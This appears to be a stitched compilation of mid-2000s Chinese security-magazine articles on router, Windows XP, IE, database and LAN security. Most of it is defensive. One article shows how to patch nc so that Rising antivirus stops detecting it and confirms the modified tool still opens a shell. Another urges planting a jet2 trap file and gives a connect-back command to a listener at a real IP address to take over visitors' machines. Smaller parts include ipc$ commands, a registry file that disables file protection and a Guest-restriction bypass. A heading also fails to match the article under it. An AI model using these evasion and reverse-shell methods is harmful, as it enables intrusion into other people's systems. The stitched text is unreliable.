### 2. MAC 地址控制

报文过滤基于 IP 地址；还可结合 MAC 地址控制以增强网络管理。以下以示例说明其配置。


- MAC 地址控制功能已启用；
- 连接控制启用后，未在控制列表中的用户可接入路由器；
- 客户端1可使用固定 IP（或手动设置），客户端2通过 DHCP 地址池获取地址；若客户端1使用的 IP 与列表指定地址（如 `192.168.123.100`）不一致，将被拒绝；
- 客户端2及其他未列出的 MAC 地址用户可被允许接入，而客户端1将被拒绝。

> 提示：若启用 DHCP 服务，可在“DHCP 客户端”中选择并将其添加到控制列表，操作比手工填写更便捷。

## 五、域名过滤

域名过滤可阻止用户访问特定 URL（如恶意或有病毒网站）及不希望浏览的站点。在“安全设置”中选择“域名过滤”，勾选“域名过滤”和“记录 DNS 查询信息”并启用。可在“特权 IP 地址范围”中填写可豁免过滤的 IP 或 IP 段；在“域名后缀”中填写受限后缀（如“bt.com”“3721.com”）并设置对应动作。

中指定当客户端访问网页符合受限域名后所采取的行动：“丢弃”为阻止访问，“记录”为允许访问但在日志中记录，最后勾选“启用”使之生效。

# 安全第一

## 六、其他设置

### 1. 远程管理主机/端口

通常只有内部用户能够浏览路由器 WEB 管理页面。使用“远程管理主机/端口”功能后，我们可以从远程主机管理设备。选择“安全设置”中的“杂项”，如图9。


在“设置”框中指定远程管理主机的 IP 和端口（建议不要使用 80 端口）并勾选“启用”，则所指定 IP 地址能够实施远程管理操作。若不限制主机，则任何远程主机都能连接到设备实现远程管理，建议不要这样设置。

> 提示：当远程管理启用时，WEB 服务端口会自动切换到新的端口。

### 2. 管理员超时

如果登录路由器后在一定时间内没有操作，系统会自动注销本次登录；在“管理员超时”框中输入秒数并启用即可。若不需要可将时间设为 0。

### 3. WAN 口 Ping 包过滤

可将此功能看作最简单的防火墙，启用后外部将无法 Ping 通本路由器，在一定程度上可拒绝恶意探测和攻击。

### 4. 备份路由器配置

辛辛苦苦做好了路由器配置，不希望因为意外毁于一旦？选择“工具箱”中的“备份设置”，可将配置文件保存到硬盘。

## 七、系统日志

我们还要记录好路由器的“健康日记”，了解每天都发生了什么、有没有被攻击和渗透。可在“高级设置”中的“系统日志”进行设置，如图10。


指定接受日志的服务器 IP 地址并勾选“启用”，则系统日志会定时传送到该主机。也可通过邮件方式传送日志，填写外发邮件服务器 IP 与接收者并启用。

> 提示：管理员登录路由器后可选择“查看日志”进行浏览。

## 八、后记

通过 Web 方式进行路由器配置相对直观，但不能忽视各种安全设置。系统全面的安全设置才能保证路由器及内网客户端安全。另外应对路由器进行版本升级，以获得更稳定、更强大的功能。

# 用户登录系统的安全隐患

大家都知道在 Win2k/XP/2003 新建一个用户后会产生以用户名命名的文件夹，包含该用户配置文件。文章讨论了用户配置文件夹的生成机制，以及修改 Default User 名称可能引发的登录问题。


文中通过实验说明：将 Default User 改名后，普通受限用户可能无法登录；管理员用户仍可登录并提示使用默认配置。进一步定位到 `systemprofile` 等目录，分析其与管理员登录配置的关系。

# “备份”组件的妙用

```bash
@ntbackup.exe backup ...
windows\system32 /a /v:no /r:no /rs:no /hc:off /m incremental /j ... /f "d:\system32.bkf"
```

上述两个命令的作用是在每次关机时对 `system32` 目录实行每日备份和增量备份，并将文件附加到 `d:\system32.bkf`。这样每天“跑”入 `system32` 的病毒（创建日期为当天）和新增文件都会被 ntbackup 捕获，然后将上边两个批处理文件放置到组策略的关机脚本中。

> **小提示：** 远程关机后，默认关机脚本不会执行备份操作；若需要远程脚本运行，可在关机时手动运行相关程序，或在 GUI 结束后再触发一次关机选择。

在 Windows 2000/XP/2003 系统中包含一个“备份”组件，可能大家平时只是用它来简单备份和还原文件。其实结合“任务计划”和批处理脚本，我们可以把它打造成监控文件变化的可靠“监工”。通过“开始→运行”输入 `ntbackup` 或在 CMD 命令提示符下运行 `ntbackup` 即可打开“备份”，详细命令参数可通过 `ntbackup /?` 获得（图1）。


图1

## 一、追杀“病毒文件”

很多小网站和不知名软件中都可能捆绑木马或病毒。经常在网上搜罗软件很难不中招。加壳、修改病毒特征码等方式常可绕过杀软追捕，因此可通过手动方式查杀。系统的 `system32` 目录是病毒藏身高发地，下面介绍利用 Ntbackup 备份 `system32` 的方法来追查这些病毒文件。

### 1. 建立备份脚本

先启动“备份”，备份项目依次选择“我的电脑”下的 `System State`（系统状态数据）和 `C:\windows\system32`。备份方式选“正常”，将项目分别备份到 `d:\system.bkf` 和 `d:\system32.bkf`。将下列代码保存为脚本文件 `system32mr.bat`，放置在 `f:\`。

```bat
@echo off
@ntbackup.exe backup c:\windows\system32 /a /v:no /r:no /rs:no /hc:off /m daily /j ... /f "d:\system32.bkf"
```

将下列代码制作为 `system32zl.bat`，放置在 `f:\`。

### 2. 查杀病毒

如果怀疑自己中招了，那么通过相应备份文件就能较易找出病毒。作者在一次上网后中了修改版冰河木马，下面用 Ntbackup 来查毒。

- **从目录里揪出病毒**：重启电脑，运行“备份”组件，在“还原和管理媒体”选择 `system32.bkf`，在右侧窗格选中每日和增量备份项目，依次展开 `c:\windows\system32` 可看到新增文件。新增文件中如出现可执行文件（EXE/COM）且名称含有 `system`、`kernel` 等可疑关键词，可重点排查，例如 `kernel32.exe`。
- **恢复系统**：木马可能在注册表添加启动项并修改 TXT 文件打开方式。可在“还原和管理媒体”中选择 `system.bkf`，将系统状态数据还原到原位置，按提示重启并进入安全模式删除恶意文件，从而恢复系统。

虽然文中以冰河为例，但多数恶意程序特征类似（藏身于 `system32`、修改注册表等），利用上述方法可以较快发现并查杀大多数病毒。

> **注意：** 系统状态还原会恢复系统状态数据（含注册表、系统启动文件等）到还原点。操作前应关闭不必要程序，避免过程被中断。

## 二、重要文件“保驾护航”

很多读者电脑里都有需要特别照顾的重要文件，例如保存在 `G:\mydocument` 下的报表文件。按公司要求应每天备份到移动硬盘，但工作繁忙常导致忘记备份，甚至出现文件被误删的情况。

利用 Ntbackup 命令可轻松解决上述烦恼。

- **备份文件夹**
  - 点击“开始→程序→附件→系统工具→备份”，单击“高级模式”（Windows 2000 则无该栏），按提示选择 `g:\mydocument`，备份类型选“正常”，将该文件夹备份到 `f:\mydocument.bkf`。

- **自动备份当日报表文件**
  - （1）建立自动备份脚本：打开“记事本”，输入内容并保存为批处理文件 `beifen.bat`，放置在 `f:\`。

```bat
@echo off
@ntbackup.exe backup g:\mydocument /a /v:no /r:no /rs:no /hc:off /m daily /j "..." /f "f:\mydocument.bkf"
```

命令作用是通过 `ntbackup.exe` 备份 `G:\mydocument` 下当天生成的文件，同时附加到 `F:\mydocument.bkf` 中。

  - （2）实现关机自动备份：运行 `gpedit.msc` 打开“组策略编辑器”，在“计算机配置→Windows 设置→脚本(启动/关机)”中设置关机脚本，脚本名填写 `f:\beifen.bat`，参数使用默认值。这样每次关机都会自动附加当日报表文件到 `f:\mydocument.bkf`。


- **妙手回春还原文件**
  - 打开备份高级模式，点击“还原和管理媒体”，选择备份文件并勾选日期对应条目，再还原到目标位置即可。


# 文件免杀示例

文件免杀有多种方法，文中介绍一种针对瑞星杀毒软件的处理方式：使用 OllyDbg 载入被查杀软件，在文件起始处修改关键汇编指令（如将 `push ebp` 改为 `pop ebp`）以达到免杀效果。

以下以瑞士军刀 nc 为例，当前版本及更新日期如图示；`nc` 被瑞星查杀（图1）。随后用 OllyDbg 载入（图2），定位到起始地址后修改指令（图3），修改后结果见图4。


将修改过的 nc 保存为 ncl.exe。接下来看看是否被瑞星杀毒软件查杀，如图4所示，已经不被瑞星杀毒软件查杀了吧！文件免杀是完成了，但事情并没有结束，还需要测试修改过的文件是否可以完成原来的功能，如图5所示，成功弹回 SHELL，这样整个工作才算结束。

- 必须申明的有两点：
- 1. 本方法仅对瑞星杀毒软件的文件免杀有用。
- 2. 需要进行免杀的文件必须不能加壳。
- （文章中涉及到的工具 OllyDbg，光盘中已收录）


# 注册码查不出来了

Exploit[C.H.U]

很多朋友在上网冲浪时都曾经经历过类似如下令人头痛的事儿：在浏览一些网站后，IE 浏览器的标题栏被篡改成了比如“欢迎访问xxxx网站”的字样，IE 的起始页、主页默认页也被设置成了那些网站的垃圾网址，这都是那些网站为了宣传自己而在网页中嵌入了 JavaScript 脚本语言来修改浏览器的注册表中相应的键值造成的。碰到这种情况，大家肯定是深恶痛绝吧！现在就让我们将其“各个击破”，打响我们 IE 保卫战，全面恢复 IE 浏览器。

## 1. 被篡改 IE 标题栏

症状：IE 浏览器上方的标题栏被改成“欢迎访问xxxx网站”的样式，这是最常见的篡改手段（图1）。


涉及子键：HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Window Title，HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main\Window Title。这两个“Window Title”子键的键值对应 IE 标题栏中的标题。

修复方法：运行注册表编辑器 regedit，展开上述两个子键，将这两个子键的键值修改为“Microsoft Internet Explorer”（IE 默认值），或者也可以将键值改为诸如“我的地盘听我的”等这类比较个性的标题，重新运行 IE 就可以了。

## 2. 被篡改 IE 起始页

症状：此处所说的 IE 起始页就是一运行 IE 就会自动打开的网页，也就是说浏览器的起始页被改成了别人恶意网站的网址（图2）。

涉及子键：HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Start Page。这个子键的键值对应 IE 起始页的网址。

修复方法：运行注册表编辑器，展开上述子键，将“Start Page”子键的键值修改为某个网址（当然是自己的了）即可。如果你不想一运行 IE 就自动打开某网页的话，可以将 IE 起始页设为空白页，即将“Start Page”子键的键值修改为“about:blank”，重新运行 IE 就可以了。也可以通过 IE 的选项设置来更改 IE 的起始页，设置方法：点击“工具/Internet 选项”，在“主页”中输入起始页。

特例：当 IE 的起始页变成了某些网址后，就算你通过选项设置修改好了，重启以后又会变成他们的网址，这是因为对方在你电脑里加入了一个自运行程序，会在系统启动时将你的 IE 起始页设成他们的网站。

修复方法：运行注册表编辑器 regedit，然后依次展开 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 主键，然后将其下的 registry.exe 子键删除，删除自运行程序 c:\Program Files\registry.exe，最后从 IE 选项中重新设置起始页就可以了。

## 3. 被篡改 IE 起始页的默认页

症状：有些 IE 被改了起始页后，即便设置了“使用默认页”仍然无效，这是因为 IE 起始页的默认页也被篡改。

涉及子键：HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main\Default_Page_URL。该子键的键值对应起始页的默认页。

修复方法：运行注册表编辑器，展开上述子键，将“Default_Page_URL”子键键值中的那些篡改网站的网址改掉就好了，或者设置为 IE 的默认值。


## 4. 被篡改 IE 默认的搜索引擎

症状：在 IE 浏览器的工具栏中有一个搜索引擎的工具按钮，可以实现网络搜索。被篡改后只要点击那个搜索工具按钮就会链接到那个篡改的网站，图3中所示就是雅虎的搜索引擎。

涉及子键：HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Search\CustomizeSearch，HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Search\SearchAssistant。

修复方法：运行注册表编辑器，依次展开上述子键，将“CustomizeSearch”和“SearchAssistant”的键值改为某个搜索引擎的网址即可。

## 5. 篡改 IE 右键菜单

症状：当你在浏览网页的时候右击鼠标，会弹出菜单中有一项“欢迎访问 xxxx 网站”。

涉及子键：`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\欢迎访问xxxx网站`。“MenuExt”主键是 IE 扩展菜单的控制主键，如果系统里安装了迅雷等下载工具的话，在这个子键下面就能看到“使用迅雷下载”这样的子键。

修复方法：运行注册表编辑器，打开上述主键，在“MenuExt”主键下面找到“欢迎访问 xxxx 网站”类似内容的主键并删除。删除前可展开查看其下指向的 HTML 文件路径，再按路径删除文件（注意该文件可能被设为隐藏属性，需在“工具/文件夹选项/查看”中显示所有文件）。


## 6. 系统启动时弹出对话框

症状：开机时会弹出推荐网站“欢迎访问 http://www......”样式的窗口。进入系统后会自动打开 IE 浏览器并指向默认主页，且无法更改（图4）。

涉及子键：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon\LegalNoticeCaption`、`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Winlogon\LegalNoticeText`。这两个主键与 IE 并不相关，而是 Windows 登录提示对话框控制项。

修复方法：运行注册表编辑器，依次展开上述主键，将“LegalNoticeCaption”和“LegalNoticeText”删除即可。

现在大家都会了吧，以后 IE 要是再出现问题，菜鸟朋友们就可以自己解决了。

另外，也建议大家安装一些 IE 保护工具，如魔法兔子等修复 IE 的软件；严重时最多重装 IE。


可以说目前大多数个人电脑使用的都是 Windows XP 系统。与较早的 Windows 2000/9x/ME 相比，主要体现在工作界面设计、网络性能及多媒体技术等方面的改进。

当然，在安全性方面的改进也不容忽视，但即便如此，随着 Windows XP 用户普及以及漏洞公开，微软 Windows XP 最新 SP2 也已不再那么安全了，希望本文能让读者在日常使用 Windows XP 时有所收获。

针对当前流行的网页木马与系统漏洞问题，建议及时开启自动更新，减少已知漏洞被利用的风险。很多网页木马通过 IE 内核漏洞传播，因此可考虑使用非 IE 内核浏览器（如 Opera、Firefox）降低风险。


## 1. 来自系统内的安全

首先不得不说的是溢出漏洞，攻击者只需要一个溢出程序就能轻易获取系统权限。大家对 03 年的 RPC/DCOM 漏洞以及 04 年的 MS04-011 漏洞应记忆犹新。这些都属于主动进攻方式，而网页木马的诞生使被动型攻击成为流行方式。针对 XP 系统，传播最广泛的方法之一是利用 help、control、local zone、WMF 等相关漏洞。

用户可以手动下载补丁包，也可以从以往在 X 光盘中收录的补丁进行安装。

XP 系统相对于 2000 在安全上做了很大的改进，即使开启了默认共享，建立连接后的权限也只是 guest，但是还是建议大家关闭共享，最简单的方法就是关闭服务里的 server（图2）。

同时为了进一步保障安全，我建议大家也关闭如下服务：Telnet、Terminal Services、Task Scheduler，这些服务多少存在安全隐患。因为很多未知漏洞的 exp 程序，也就是牛人们研究并开发的 0day，大多数是针对这些默认开启的服务。


说到 Terminal Services 这个服务，大家还记得魔女条件在上期给我们介绍的 XP SP2 远程多用户登录的文章吧。我们只需要导入一个注册表文件（后缀为 reg）就可以关闭文件保护功能，内容如下：

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"SFCDisable"=dword:ffffff9d
```

所以有必要在关键的键值上进行保护，我们可以设置这些根键的权限为“完全拒绝”（图3）。


这样就算提示导入成功，也不会对该键值进行修改。文件保护功能是相当重要的，所以大家切记要在注册表上动点手术。现在大多数远程控制型木马利用 ActiveX 值启动，所以这处键值也要修改相应权限：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Active Setup\Installed Components。

关于系统以内的安全，也存在一些设置方面的问题，例如 XP 的防火墙最好是按照默认开启，起码可以对一些主动连接型木马进行拦截。大多数服务是开启了对应的默认端口，而在端口的防范上，可以利用系统自带的 TCP/IP 安全策略来进行筛选。XP 的安全中心也是一大改进功能，默认情况下给予用户必要的安全提示，不过此功能的确有些鸡肋。所以建议大家也关闭这个服务：Security Center。最后注意查看一下你的管理员用户，虽然 XP 是单用户工作站模式，但是现在很多 ghost 镜像克隆安装的系统存在口令为空的 new 用户（多数表现在电脑城初始安装的系统），而在用户注销的情况下远程连接可以通过此 new 用户进入你的系统，删除不必要的用户和设置管理员口令也是必须的。

## 2. 来自系统外的安全

在确定修复已知系统漏洞和保证安全设置的情况下，有必要对我们的系统进行人为的武装。杀毒软件是必不可少的；大家可以根据自身所好选择一款强劲的杀毒软件。系统自带的防火墙在功能上有所欠缺，建议使用第三方防火墙进行端口过滤，同时可以对未发布补丁的漏洞进行安全升级并有效防范。

由于现在的木马使用远程插入技术，并且免杀技术相对成熟，靠防火墙和杀毒软件并不能做到绝对安全。这里推荐使用俄罗斯的一款安全工具 Safe System Monitor（SSM），该软件支持中文，可以监视文件和注册表改动，并且能在文件运行时对调用行为进行拦截（图4）。


利用它来检测一些捆绑过的工具，或者查看木马的运行方式是绝对实用的。建议大家在接收或者下载一些不能确定其安全性的工具的时候，利用本程序进行监视；如果是木马程序就自身进行拦截。例如捆绑过的工具在运行后可以检测到其他程序同时运行，或者可以拦截到木马调用 service 写入服务。

在工具辅助的情况下，自身的安全知识和意识也是不可缺少的。平时切记不要随意进入一些网站，特别是那些黄色网站等可能会利用 ActiveX 载入插件或者 IE 漏洞自动下载间谍和木马程序。我们有必要对一些非安全保障的工具，特别是平时下载的某些黑客工具，先进行查毒，然后用 SSM 进行监视。总之，用户自身的安全才是根本的安全。

## 3. 一点建议

通过黑客惯用伎俩来看，现在的钓鱼手法普遍存在并且迅速发展。不论是利用系统漏洞进行攻击或者网页挂马，还是利用人性心理漏洞进行网络诈骗，这些都让人防不胜防。所以我们的系统不仅要经过漏洞修复和安全工具的层层保护，同时一定要擦亮自己的眼睛，对任何事物有一个严格的判断标准，小心驶得万年船。最后祝大家确保系统安康的情况下，身体也一定要健康哦。

# 菜鸟的安全“驱逐舰”

病毒和木马一直是大家讨论的热门话题，因此杀毒软件也就自然成了上网冲浪的安全守护神。现在知名的杀毒软件有国内的瑞星、江民和金山，国外的卡巴斯基和诺顿等都是许多网友喜爱的。不过，今天我要介绍给大家的却是一款小巧而又高效率的杀毒软件——Virus 驱逐舰。

## 一、软件介绍

- 1. 只有 5MB 的安装文件，占用的电脑资源很小。
- 2. 以自动升级功能病毒库进行最快的防范，每天至少更新一种病毒库样本，每天后台自动升级 12 次以上，其中有效升级平均每天 2 次。
- 3. 升级时完美的本地与服务器文件对比，智能恢复本地不正常的文件，从而拥有一个干净的杀毒环境。
- 4. 在国内首次获得 Virus Bulletin 100% 的认证标志，成为得到世界上广泛认可的强有力的病毒扫描及修复引擎。
- 5. 从 Windows 9x 到现在最新的 Windows 2003，在软件正常启动的情况下，即使我们杀毒软件的监控进程被恶意结束，仍可从底层保护我们的电脑，使病毒一样无法运行。
- 6. 不再像以往的杀毒软件那样，对电脑操作中的全局整体进行监控；该软件采取的是文件变化保护模式，在设备驱动器层次上对病毒进行扫描修复，是根本上截断新的或变种病毒感染的强有力算法。
- 7. 检测并修复病毒均有统一代码，从根本上截断硬盘二次感染，这是仅 Virus 驱逐舰拥有的技术。

很多功能都是独具一格的，完全解决了程序大和内存资源高的问题。并且在国内首批“修复常驻内存”的特点，最难能可贵的是作为国内的杀毒厂家，能够设计出如此完美的杀毒软件，是国人的骄傲。


## 二、软件安装和使用

在安装之前必须卸载其他的杀毒软件，以免产生程序冲突。当然安装向导也会自动卸载存在的杀毒软件。在安装过程中向导会自动启用升级程序进行升级，如图1。为了方便测试我把 Virus 驱逐舰安装在我的虚拟机上了。

在整个安装过程完毕后，大家可以点击桌面上 Virus 驱逐舰的快捷方式，或者通过系统托盘下的红蜘蛛图标打开这款杀毒工具，如图2。

通过安装目录，可以发现整体体积也不过 7M 大小，而任务管理器也向我们证实了超低的内存消耗，整个监视系统有三个进程，却只有不到 8M 的内存资源！


我们打开后，可以看到 5 个菜单标识，“常规”栏目可以显示升级的相关信息，在监控设置里有邮件和系统监控，默认大家把两个都开启。扫描菜单下可以选择自己定义的硬盘目录进行病毒查杀，这里还可以显示驱动器的容量和删除临时文件的功能。至于日志就不多介绍了，记录了详细的扫描日志和杀毒日志，同时更新栏目下记录了当前病毒库收录的病毒信息。功能设置里可以按照用户自身要求来设置一些定义的参数，特别注意的是在“扫描设置”下还可以设置不扫描的目录，这样可以把一些被定义为病毒的黑客工具很好地保护起来，至少我还没有发现国内其他杀毒公司的产品具有该功能。


## 三、软件测试

由于硬盘里的病毒包已经删除了，这里以几款流行的木马来作测试。我们来看一下灰鸽子火狐修改版的服务端，当我将服务端复制到虚拟机后就被 Virus 驱逐舰提示为病毒了，说明文件防护功能的确不错，如图3。然后我把 pcshare1130 的 updata 目录复制到虚拟机，这个目录里的文件就是 pcshare 生成的配置文件，一般免杀都要针对这里的文件进行修改，我用驱逐舰对目录进行扫描，看来 pcshare 的主要驱动文件 sys 和内存释放 dll 全部已经被通缉了，如图4。

后来我又测试了其他一些木马，包括一些不被卡巴斯基和江民查杀的黑洞和上兴服务端文件进行查杀，全被杀得片甲不留。我又利用驱逐舰的内存扫描功能查杀对于写入系统内核级的木马，例如 pcshare 等可以在重新启动后进行查杀，说明该杀毒引擎也涵盖了卡巴斯基和瑞星的优良安全性能。最后又测试了几个流行病毒、捆绑机和下载者，结果相当令人满意。

## 四、软件升级

驱逐舰的升级信息是验证序列号和绑定标识，安装完成后软件会自动生成这些升级信息，每个序列号可以免费升级一个月。当然，如果你需要更长的升级时间，不光可以通过购买，同时也可以利用序列号和标识号注册成为网站会员，然后把你的注册账号推荐给别人进行注册，就可以延长升级时间，是不是非常有趣？

## 五、总结

在软件的使用过程中，没有出现过不稳定的情况发生。特别是对于文件和内存的监控非常安全，同时对于病毒和木马的查杀测试也让人觉得非常放心。在系统资源严重吃紧的今天，驱逐舰是否可以作为您新一代的守护神呢？

# 下载和逍遥任我设后门

王艺翔

许多网站都会用到数据库，因此，数据库也理所当然地成为了一个站点的核心。一旦数据库被别人下载，那么所有用户的资料信息甚至包括网站的管理密码都会被对方轻易得到。

在以前的杂志上也包括网上都介绍过一些防止数据库被下载的方法，在此，我就为大家简单总结一下。

- 1. 修改原始数据库的文件名，并在 `conn.asp` 中做相应修改；
- 2. 修改数据库后缀为 `ASP`；
- 3. 在数据库文件名中加入 `#` 字符；
- 4. 给数据库加密（效果有限）；
- 5. 将数据库文件放在其他目录并与网站目录分开；
- 6. 我自创的方法（下文详细介绍）。

上面的前五种方法也是管理员通常用到的方法。方法一、方法二、方法三分别分析了 IE 与 FlashGet 在下载数据库文件时的行为差异，并说明了 `%23` 解析、文件后缀伪装、路径公开等问题。随后给出了一个更实用的处理思路：将数据库文件改名为 `my%23leaf.asp`，并在 `conn.asp` 中同步修改。

为了给入侵者一个教训，可以使用 `jet2.exe` 生成可被利用的 mdb 文件并结合 `nc -vv -l -p 1314` 监听，诱导攻击者下载并打开伪装文件后获取对方 shell。文中依次演示了请求地址、命令行执行、监听回连和最终获取 system shell 的过程。

```bash
jet2 1 218.27.161.49 1314
nc -vv -l -p 1314
```


# 局域网，别忘了安全


对于广大的菜鸟朋友来说，局域网是他们施展“才能”的理想场所，网吧、校园网、公司内部网络等等。但是当他们将自己置身于局域网中的同时，有没有想过自己的安全呢？本文就简单地谈谈局域网安全的几个重要问题。

## 一、物理设备安全

- 1. 物理安全很容易被忽略，尤其像交换机、路由器等这些重要设备，应放到机柜里，并且要上锁。如果连设备都没有保护好，那么就更别说网络的安全了。
- 2. 对设备要进行必要的设置（如交换机、服务器、路由器），防止入侵者通过空口令或系统默认口令来取得对系统及设备的访问控制权。

## 二、局域网中隐藏自己

我们知道在入侵内网的时候，只要在网上邻居里就很容易找到下手目标，那么怎样才能让自己在网上邻居里消失呢？可以通过命令与注册表设置实现临时或永久隐藏。

```bash
net config server /hidden:yes
net config server
```


不过这么做只局限于当前系统有效。当再次重启计算机时，在网上邻居又可以看到你的主机了，所以还要对注册表进行修改，这样才能做到永久地在网上邻居中消失。可在注册表中定位到相关参数项并修改 DWORD 值后重启生效。

```text
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters
```

利用系统自带的 Ping 命令可以获得许多信息，比如通过 TTL 值可判断对方系统类型。为防止被探测，可关闭 ICMP 或修改注册表禁止 Ping/重定向等响应。

```text
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\TCPIP\Parameters
EnableICMPRedirects = 0
```

## 三、防范共享入侵

说到共享入侵，就不得不说 ipc$。ipc$ 是为了让进程间通信而开放的命名管道，可通过验证用户名和密码获得相应权限。很多工具必须用到 ipc$，而默认共享常用于远程管理。

```bash
\\IP\*$
net use \\IP\ipc$ "密码" /user:"用户名"
net use * \\IP\*$
```

关闭共享最直接的方法是停止 Server 服务，或在注册表中关闭 IPC$ 与默认共享。但在域环境中不能盲目关闭全部默认共享，否则会影响域登录与管理，需按实际情况配置。

## 四、网络软件

在局域网里经常会遇到一些滥用网络管理软件的用户，如网络执法官、网络剪刀手等。这类软件常利用 ARP 欺骗攻击网关，导致目标掉线。运行后可扫描网段主机并执行“剪断”等操作。

这类工具通常主要影响二层网络用户。可通过反嗅探、ARP 防护及网络管理工具对异常网卡进行定位和追踪，例如 Antisniffer、ARPkiller 等，从而降低风险。这样基本上就能抓出黑手了。打开“ARPkiller”选择你的网卡，再点击“Sniffer 检测工具”，单击“开始检测”，很快就能找到局域网中网卡处于“混杂监听”状态的主机了。看，就是这个小子 192.168.0.55（注：因为本地也运行 ARPkiller 反嗅探软件，所以本机的网卡也是处于“混杂监听”状态的），如图 3。


图3

接下来的事情嘛，你想反攻也可以，去向当地网管举报也可以，自己看着办吧！


图4

对第二种 ARP 欺骗攻击，在本机绑定 IP 和 MAC 地址即可。打开“CMD”输入命令：`arp -s 192.168.0.208 00-0C-76-E1-C2-D9`，把 ARP 高速缓存改成 ARP 静态缓存。最好先在宽带路由器上绑定 IP 和 MAC，再对个人 PC 进行 IP 和 MAC 地址绑定，双管齐下，这样做能更有效地防范 ARP 欺骗攻击！

## 五、ARP 欺骗防范

ARP 欺骗攻击是局域网里最可怕的攻击之一，它能够使局域网内的主机大面积断网，是网管们的心腹之患。ARP 欺骗攻击一般分为 2 种，一种是对路由器的 ARP 表进行欺骗，另外一种是对网关进行欺骗（关于 ARP 欺骗的介绍，在 4 期的小手册上已经说得很详细了）。

对于第一种 ARP 欺骗攻击，我们可以利用宽带路由器的“固定 DHCP 功能”或“IP/MAC 绑定”（大家可以根据自己的宽带路由器而定）来绑定 IP 和 MAC 地址。打开宽带路由器 WEB 管理页，点击“DHCP”找到“固定 DHCP 功能”，选“激活”，填入相应的网络名称（主机名）、IP 地址、MAC 地址，单击“执行”就可完成绑定。

## 六、安装防毒软件

在局域网里的主机一定要安装防火墙和杀毒软件（记住：杀毒软件要常常更新，别以为装了就完事了哟），还有我们要及时地对系统补丁进行更新，大多数病毒和黑客都是通过系统漏洞进来的。另外我们要把那些不需要的服务关闭，例如 TELNET 等，还有关闭 Guest 账号。因为在局域网里的攻击和病毒感染的几率远远大于广域网。

经过以上的设置，局域网已经变得安全多了。但局域网安全并不是三言两语能说完的，想要更好地管理局域网，让其变得更安全，还需要各位读者不懈地努力和不断地探索。

（文章中涉及到的工具网络剪刀手已收录于光盘中）

# 给我一双慧眼吧——反捆绑工具

cainiaoq

想必各位菜鸟经常使用捆绑软件将自己配置好的木马与别的正常软件捆绑在一起，发给别人运行，并最终控制对方的电脑吧。那么当我们在网上下载某个文件时，怎么知道这个文件有没有被捆绑过木马呢？其实很简单，我们可以通过“荣成文件捆绑克星”这个小软件进行检查。

运行“荣成文件捆绑克星”，我们在“搜索位置”中设定要搜索的位置，“搜索限定”中设置好限定范围，点击“开始搜索”按钮，即可知道结果了，如图1。

“荣成文件捆绑克星”还有很多优点，我们在“搜索位置”中可以用半角分号分隔开多个驱动器。例如 `c:\windows;d:\;e:\`。如果在搜索结果中找到了捆绑有木马的文件，可以点击“文件分解”按钮将搜索到的可执行文件分解。接下来我们就可以对分解后的文件进行测试，将需要的保留下来，“害人”的删除。


“脱壳捆绑检测”正如它的名字，也是一款不错的反捆绑工具。程序运行的界面如图2所示。它是通过分析文件头的个数来检测是否有文件被捆绑，这点和上面说的荣成捆绑克星是一样的原理。这个工具测试通过了灰鸽子的万能捆绑机、EXE 捆绑机、文件捆绑专家等很多的捆绑程序。

“捆绑克星”是卸载捆绑软件的操作界面，如图4。这款工具最大的特点是可以像杀毒软件一样扫描系统的捆绑软件。点击“扫描”后，一会儿我们就可以得到系统程序中哪些是被捆绑了其他文件的了。

我们怀疑经过捆绑的文件，点“开始检测”就可以了。相对于上面的两款工具，“捆绑克星”有它自己的独到之处，它不仅可以扫描和卸载捆绑的软件，而且还有进程查杀等功能。

# 打造永远无毒的 Windows

Xc.Talent

以前曾看过一篇文章，说是建立一个低权限的账户（users 权限），然后用此用户来上网，如果需要安装软件就切换使用 administrators 权限的用户来安装。这样即便自己中毒了，也不用担心，因为权限低，病毒的最高权限也无非是 users。

```bash
net user xctalent "48481231" /add
net localgroup guests xctalent /add
net localgroup users xctalent /del
```

首先我们建立一个 Guests 权限的账户，可以直接激活 Guest 用户来使用，但为了安全建议新建用户。在 CMD 下执行命令添加账户并加入 guests 组，然后删除其 users 权限，使其成为更低权限账户。

成功删除了 xctalent 账户的 users 权限后，低权限用户登录时会发现不能运行 exe 可执行文件。这是 guests 组权限的一个限制。


guests 组权限限制是无法创建宽带连接！首先我们要突破无法运行所有 exe 文件的限制，如图2，cmd.exe 都无法运行了，哈，够让人头痛的吧！


还记得在 Windows 2000/XP/2003 系统里还有一个命令提示符吗？准确地说应该是 MS-DOS，而非命令提示符。命令提示符是在 Windows 2000 级别以上系统中，为了方便操作，微软制作的一个仿 DOS 界面的程序。可以模拟 DOS，执行一些 DOS 命令，如 DIR、COPY 等。

因为不可能又叫 DOS，所以这个名字叫了命令提示符。我们现在打开 Windows 目录下的 system32 目录，找到一个名为 command 的文件。这个文件与命令提示符基本上一样，但是它居然可以打开，原来它的扩展名是 .com。


有思路了，现在打开以前的可执行文件，如 QQ.EXE，我们把它的扩展名改成 .com，成功运行！哈哈，现在 QQ 是可以运行了，但是还有一个问题，就是在 GUESTS 权限下无法进行网络连接！那该怎么办呢？没关系，我们再来突破权限。

一般建立网络连接，是在“控制面板”里的“网络连接”中新建一个连接，然后运行就可以了。但是根据我测试，我建立好之后建立的那个网络连接，根本没有反应。又是 GUESTS 的限制，我们换一个地方！在 IE 里面设置自动连接试试，打开 IE 在菜单栏中选择“工具”，然后选择“Internet 选项”，打开之后选择“连接”，如图3。

